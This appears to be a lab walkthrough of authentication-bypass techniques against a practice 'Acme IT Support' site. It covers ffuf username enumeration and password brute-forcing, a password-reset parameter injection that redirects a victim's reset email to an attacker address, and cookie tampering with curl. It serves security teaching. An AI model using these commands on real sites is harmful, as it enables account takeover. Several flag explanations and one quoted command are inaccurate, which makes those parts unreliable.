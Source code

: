 # Authentication Bypass
### Task 1 Brief
Common website authentication methods that can be bypassed, defeated or broken. These vulnerabilities can be some of the most critical as it often ends in leaks of customers personal data.

### Task 2 Username Enumeration
A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.

Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website. (`http://<ip>/customers/signup`)

If you try entering the username **admin** and fill in the other form fields with fake information, you'll see we get the error **An account with user username already exists**. You can use this error to find usernames that actually exist.

`ffuf -w /Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://<ip>/customers/signup -mr "username already exists"`

This will return all the successful usernames that already exist. The `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

### Task 3 Brute Force
Now using the custom list of usernames that are valid, we can attempt to brute force the login page.

Using this in conjunction with a password list, we can try multiple passwords with those users.

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/...:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://<ip>/customers/login -fc 200`

`-fc` option is used to check for the HTTP status code of 200, meaning it was a successful login.

### Task 4 Logic Flaw
Sometimes authentication processes contain logic flaws. A logic flaw when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.

##### Example
```scheme
	if (url.substr(0,6) === '/admin') {
		# code to check user is admin
	} else {
		# View page
	}
```

Because this is using the equal sign check, if someone goes to '/adMiN' page they may bypass this check.

##### Practice
The reset password function of the Acme IT Support website is at `http://<ip>/customers/reset`. The form is asking for an email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive an error message "Account not found from supplied email address".

For demonstration purposes, we'll use email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we use the username robert as the username and press the Check username button, it will present a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.

We see that the email is sent as a GET parameter and the username is sent via POST request.

If we cURL the URL with the GET parameter and pass the POST data.

`curl 'http://<ip>/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`

in the application, the user account retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`. This variable is an array that contains data received from the query string and POST data.

This means we can pass in another POST parameter data to choose where the email reset link is sent `'username=robert&email=attacker@hacker.com'`

### Task 5 Cookie Tampering
Examining and editing the cookies set by the Web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

##### Plain text
The contents of some cookies can be in plain text, and it's obvious what they do

`Set-Cookie: logged_in=true;Max-Age=3600;Path=/`
`Set-Cookie: admin=false;Max-Age=3600;Path=/`

First, we'll start just by requesting the target page.
`curl http://<ip>/cookie-test`

Another request, setting the loggin_in cookie to true, but admin to false
`curl -H 'Cookie: logged_in=true; admin=false" http://<ip>/cookie-test`



